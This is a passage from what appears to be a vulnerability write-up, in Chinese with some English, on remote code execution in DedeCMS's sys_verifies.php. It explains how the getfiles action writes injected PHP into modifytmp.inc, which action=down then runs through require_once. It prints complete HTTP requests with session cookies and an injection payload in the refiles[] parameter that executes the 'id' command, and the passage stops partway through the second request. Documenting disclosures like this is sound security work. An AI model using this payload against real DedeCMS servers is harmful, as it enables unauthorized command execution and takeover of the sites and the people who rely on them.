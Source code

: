 2. 这个分支的第一个操作就是定义`$cacheFiles`变量指向`modifytmp.inc`文件

   - `DEDEDATA`是DedeCMS中定义的常量，指向数据目录

3. 然后立即使用`require_once()`函数加载这个文件：

   ```php
   require_once($cacheFiles);
   ```

4. 加载后，代码会使用从`modifytmp.inc`中获取的变量：

   - `$fileConut`：用于检查是否下载完所有文件
   - `$tmpdir`：临时目录名
   - `$files[$curfile]`：当前要下载的文件名

这就是漏洞利用链的关键部分：

1. 之前的`getfiles`操作创建了包含恶意代码的`modifytmp.inc`
2. 当访问`action=down`时，系统通过`require_once()`包含这个文件
3. PHP解析器会执行文件中的所有PHP代码，包括我们注入的恶意指令
4. `curfile=1`参数会使系统尝试访问`$files[0]`，触发我们的注入代码

典型的"文件包含后利用"模式，先将恶意代码写入文件，再诱导系统加载执行该文件。

### Step1

```http
POST /dede/sys_verifies.php HTTP/1.1
Host: www.dede.top
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=vjtlnq0jvrql4iuveubluted36; _csrf_name_74ae9ccb=0afd0608d1019e243ccd2edfa52c8d53; _csrf_name_74ae9ccb1BH21ANI1AGD297L1FF21LN02BGE1DNG=101e27f26cfdc22e; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=46f5b1c017a14f40; DedeLoginTime=1748391833; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=8c5466a9a07e334a
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Origin: http://www.dede.top
Referer: http://www.dede.top/dede/sys_verifies.php?action=getfiles
Pragma: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Length: 43

action=getfiles&refiles%5B%5D=xxx$%7B$%7Bprint%60id%60%7D%7D
```

![image-20250528084731526](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505280847888.png)

### And when you input this payload ,the Web will auto get the next HTTP

```http
POST /dede/sys_verifies.php HTTP/1.1
Host: www.dede.top
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=vjtlnq0jvrql4iuveubluted36; _csrf_name_74ae9ccb=0afd0608d1019e243ccd2edfa52c8d53; _csrf_name_74ae9ccb1BH21ANI1AGD297L1FF21LN02BGE1DNG=101e27f26cfdc22e; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=46f5b1c017a14f40; DedeLoginTime=1748391833; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=8c5466a9a07e334a
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
```